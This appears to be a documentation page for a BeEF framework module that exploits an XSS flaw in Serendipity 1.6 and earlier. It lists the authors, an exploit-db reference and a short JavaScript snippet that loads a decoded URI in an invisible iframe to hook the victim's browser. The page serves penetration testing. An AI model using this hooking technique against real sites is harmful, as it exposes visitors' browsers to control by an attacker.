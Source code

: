 ## Summary

* **Objective**: hook Serendipity <= 1.6 using XSS
* **Authors**: bcoles, Stefan Schurtz
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/xss/serendipity_1.6_xss)

## Internal Working

Uses an invisible iframe to hook the serendipity instance

```js
        var uri = beef.encode.base64.decode('<%= Base64.strict_encode64(@uri) %>');

        var serendipity_iframe = beef.dom.createInvisibleIframe();
        serendipity_iframe.setAttribute('src', uri);

```

## References

http://www.exploit-db.com/exploits/18884/

## Feedback
